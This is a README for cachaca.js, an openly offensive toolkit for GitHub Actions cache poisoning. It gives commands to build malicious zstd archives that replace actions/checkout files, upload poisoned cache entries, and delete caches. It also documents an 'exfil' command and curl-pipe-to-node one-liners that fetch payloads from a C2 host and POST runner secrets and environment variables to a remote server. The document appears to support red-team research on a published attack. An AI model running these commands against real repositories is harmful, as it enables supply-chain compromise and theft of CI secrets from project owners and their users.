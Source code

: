 <div align="center">
	:cocktail:
</div>
<h1 align="center">
  cachaca.js
</h1>

<p align="center">
   Some JS files to exploit GitHub action cache poisoning.
</p>

<div align="center">
  <!--<img src="img/cachaca.png"/>-->
</div>

<br />

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Installation](#installation)
- [GitHub action cache poisoning](#github-action-cache-poisoning)
- [Usage](#usage)
  - [cachaca-cli.js](#cachaca-clijs)
    - [Upload](#upload)
    - [Archive](#archive)
    - [list](#list)
    - [delete](#delete)
    - [exfil](#exfil)
  - [cachaca-dumper.js](#cachaca-dumperjs)
  - [cachaca-poisoner.js](#cachaca-poisonerjs)
- [Acknowledgements](#acknowledgements)


## Installation

```
$ git clone https://github.com/Hug0Vincent/cachaca.js.git
$ cd cachaca.js
$ npm i
```

To build all the scripts:
```
$ npm run build
```

## GitHub action cache poisoning

> when a workflow checked out and ran user-controlled code, but only had a ``GITHUB_TOKEN`` with read access and no secrets [...] There is a way to escalate by smashing caches.

This attack vector was originaly found by [@adnanthekhan](https://twitter.com/adnanthekhan), you can read it [here](https://adnanthekhan.com/2024/05/06/the-monsters-in-your-build-cache-github-actions-cache-poisoning/) and [here](https://adnanthekhan.com/2024/12/21/cacheract-the-monster-in-your-build-cache/).

This project includes JS scripts designed to exploit GitHub Actions's cache mechanism. To use them, you must be able to execute arbitrary commands within a workflow running on the default branch.

## Usage

### cachaca-cli.js

```
$ node dist/cachaca-cli.js
Usage: cachaca.js [options] [command]

CLI tool for exploiting GitHub action's cache.

Options:
  -V, --version      output the version number
  --stealth          Disable logging (default: false)
  -h, --help         display help for command

Commands:
  upload [options]   Upload a cache entry to GitHub.
  archive [options]  Build a cache archive.
  list [options]     List all cache entries for a repository
  delete [options]   Delete a specific cache entry
  exfil [options]    Send secrets to a remote server.
  help [command]     display help for command

```

#### Upload

The upload command can be used to upload a ``zstd`` archive to GitHub. It should be run from a runner:

```
$ node dist/cachaca-cli.js upload -k cache_key -v node_modules -u https://127.0.0.1/mycache.zstd
```

> [!NOTE] 
> You can specify the version as a path (or multiple paths separated by commas). If you do, the tool will automatically resolve the actual version for you.

```
Usage: cachaca.js upload [options]

Upload a cache entry to GitHub.

Options:
  -k, --key <key>          Cache key
  -v, --version <version>  Cache version
  -f, --file <path>        Path to the local artifact file
  -u, --url <url>          URL of the remote artifact file
  -t, --token <token>      GitHub token
  -h, --help               display help for command
```

> [!NOTE] 
> You can execute it independently of a runner by supplying a cached JWT. However, you won’t be able to upload an archive if the workflow that provided the JWT has already terminated.

#### Archive

This command can be used to build malicious ``zstd`` archives:

```
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./assets/action_checkout.yml -r /home/runner/work/_actions/actions/checkout/v4/action.yml
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./dist/cachaca-dumper.js -r /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js
📦 building archive: mycache.zstd
✅ Archive updated.
📄 Archive entries:
	- /home/runner/work/_actions/actions/checkout/v4/action.yml
	- /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js

```

```
Usage: cachaca.js archive [options]

Build a cache archive.

Options:
  -z, --zstd <path>          Path for the archive file
  -a, --add <path>           Source file or directory to archive
  -r, --rename <name>        Rename file in archive.
  -l, --leading-path <path>  Leading path in the archive (default: "")
  --list                     List archive content.
  -h, --help                 display help for command

```

#### list

This command is used to list cache entries from a repo:

```
$ node dist/cachaca-cli.js  list -o actions -r runner                                                                                     26.15% 2/9GB 
Cache entries:
- Key: Linux-nuget-86355ad7f28c3580457d8ef5b7f66a402201c7c7abb60add09b887f3512d907e, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/main, Size: 1737918364 bytes
- Key: Linux-nuget-d6dfc31d4d2f6ebf6a2ed39484c617033ba83fe3a0919004cd7fd1219228cf2d, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/dependabot/nuget/src/Sdk/main/Azure.Storage.Blobs-12.25.1, Size: 2610626989 bytes
```

#### delete

This command is used to remove a cache entry from a repo.

```
$ node dist/cachaca-cli.js  delete -o org -r repo -t $GHP -k cache_key -v cache_version
```

> [!IMPORTANT]  
> You need to provide a token with the ``actions: write`` permission.

#### exfil

This command extracts the GitHub secrets passed to the runner, along with the current environment variables, and sends them as a JSON payload via a POST request to a remote server. It must be executed within a runner.

```
$ node dist/cachaca-cli.js exfil -u https://127.0.0.1
```

### cachaca-dumper.js

Single script that perform the same operation as the ``exfil`` command. The URL is embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-dumper.js | node
```

To configure it edit the ``dumperExfilUrl`` value in [config.json](config.json).

### cachaca-poisoner.js

Single script that perform the same operation as the ``upload`` command. The arguments are embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-poisoner.js | node
```

To configure it edit the values in [config.json](config.json).

``poisonerFetchMode`` can be ``url`` / ``file`` / ``embedded``. In any case ``poisonerFetchModeValue`` will contain the associated value wich would be an URL or a file path. In the ``embedded`` case the file will be staticaly added to ``cachaca-poisoner.js``.

``poisonerCacheVersion`` must contain the full version or the value of the ``path`` in the ``restore`` action:

```yml
-   name: cache
    uses: actions/cache/restore@v4
    with:
        path: node_modules/
        key: npm-test
```

Here is a config example:

```json
{
    "dumperExfilUrl":"https://127.0.0.1/",
    "poisonerFetchMode":"url",
    "poisonerFetchModeValue":"http://127.0.0.1/custom_cache.zstd",
    "poisonerCacheKey": "npm-test",
    "poisonerCacheVersion": "node_modules/"
}
```

## Acknowledgements

- [@adnanthekhan](https://twitter.com/adnanthekhan) for the original research and also because portions of this project include code from [Cacheract](https://github.com/AdnaneKhan/Cacheract).
